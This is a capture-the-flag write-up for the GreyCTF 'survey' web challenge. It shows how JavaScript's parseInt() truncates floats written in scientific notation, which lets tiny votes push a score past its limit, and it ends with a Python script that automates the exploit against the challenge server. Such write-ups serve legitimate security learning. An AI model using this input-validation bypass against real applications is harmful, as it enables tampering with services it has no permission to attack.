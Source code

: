 ```yaml
---
title: Greyctf Survey Writeup
date: 2024-04-25
categories:
  - Writeups
tags:
  - Grey cat the flag
---
```


# Intro

- Recently I have participated in Grey Cat The Flag as a member in F1ag dot txt, and I encountered some questions which are quite interesting ( even though some of the question I did not actually manage to solve them ). One of them is greyctf survey

# 0x01

### Source code:

index.js
```javascript
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})

```

From the source code, we can see that we are able to send data by using post method to the endpoint '/vote'. And the data will be in json format:  {'votes': value}

The value need to be send will have to be in between 1 and -1, and it will be parsed into an integer and will be added to the 'score' variable, and once the value of score exceeds 1. It will return with flag

# 0x02

As such, we can use try to use burp to intercept the packet first and post a random data that is between 1 and -1 . But it turns out that the value it returns us is the exact same.

## parseInt() function

In Javascript, the parseInt() function parses a string argument and returns an integer of the specified radix (the base in mathematical numeral systems)(https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt)

It has two parameter(here we only require to use one): String and radix(we do not need use this one at this circumstance)

Tips: 
1. If the string start with a "0x", Javascript will interpret it as a hexadecimal number
2. If the typeof value is not a string, Javascript will implicitly call the `toString()` to convert it into a string by default.

The parseInt() will starts parsing from the beginning of the string until it encounters a non-numeric character or reaches the end of the string with whitespace ignoring . If the first non-whitespace character is not numeric character, plus or negative. It will return a value of NaN.

For instance:

```javascript
console.log(parseInt('123abc'))//123
console.log(parseInt(' 1'))//1
console.log(parseInt('a'))//NaN
```

Similarly, if the value is a decimal(float), it will return the number before decimal point, as '.' is considered as non-numeric

```javascript
console.log(parseInt(0.05))//0
```

It will return a value of 0, and that explains why the score remain exact same why we post a value(-1 < value < 1), as it will be parsed to 0.

# 0x03

## Standard form

However, in javascript, when a number has more than 6 decimal places, it will automatically transformed into standard form.

For instance:

```javascript
console.log(0.0000001)//1e-7
```


Therefore, back to the parseInt() function again, once we post a value that exceeds 6 decimals places, parseInt() lt will only parse the part of the string before the "e" character:

For instance:

```javascript
0.0000001 -> 1e-7
```

The first number that parseInt() will parse will be 1 and end before the "e" character

As such, we can use this and post a data that is more than 6 decimal places.

![](/assets/img/Grey_cat_the_flag/flag.png)

By doing it, we can find the value changing, and by doing it twice, we are able to make the score more than 1.

As it exceeds 1, it returns us with the flag.

# 0x04
## Python

```python
exp.py

#!/usr/bin/python3
import requests
import json

def solve():
    try:
        # url
        url = 'http://challs.nusgreyhats.org:33334/vote'
        # header
        header = {
            "Content-Type": "application/json; charset=utf-8"
        }
        # payload
        payload = '''
        {"vote":0.0000000000000000001}    
        '''
        reponse = requests.post(url, data=payload,headers=header)
        # if the score still do not exceeds 1
        # flag format: "grey{...}"
        while "grey{" not in reponse.text:
            reponse = requests.post(url, data=payload,headers=header)
        # flag 
        flag = json.loads(reponse.text)['msg']
        print(flag)
    except Exception as e:
        print(e)

if __name__ == "__main__":
    solve()

```


Reference: 
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt
http://t.csdnimg.cn/EU6uo
http://t.csdnimg.cn/yGCjd
